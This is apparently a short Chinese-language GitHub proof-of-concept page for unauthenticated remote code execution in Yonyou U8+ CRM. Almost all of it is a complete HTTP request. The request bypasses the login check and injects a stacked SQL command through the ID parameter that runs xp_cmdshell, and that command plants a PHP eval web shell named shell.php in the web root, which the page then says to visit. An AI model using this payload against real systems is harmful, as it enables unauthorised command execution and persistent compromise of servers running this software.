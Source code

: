 # 用友U8+CRM 前台RCE

![图片](https://github.com/user-attachments/assets/301e1386-c363-46da-856f-3bb2d864d230)
# POC
在未经授权的情况下，通过ID参数并使用xp_cmdshell执行命令。


GET /bgt/reservationcomplete.php?DontCheckLogin=1&ID=1112;exec%20master..xp_cmdshell%20%27echo%20^%3C?php%20@eval($_POST[x]);?^%3E%20%3E%20D:\U8SOFT\turbocrm70\code\www\shell.php%27; HTTP/1.1

Host: 127.0.0.1:8072

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

Cookie: PHPSESSID=bgsesstimeout-

Upgrade-Insecure-Requests: 1

X-Forwarded-For: 192.168.12.3

Priority: u=0, i

![图片](https://github.com/user-attachments/assets/69ccc4fe-fffe-4a1a-b97c-64886a0b3819)


# 访问/shell.php

![图片](https://github.com/user-attachments/assets/1f8e811c-e9fa-4f28-9355-9f32bc4601b5)


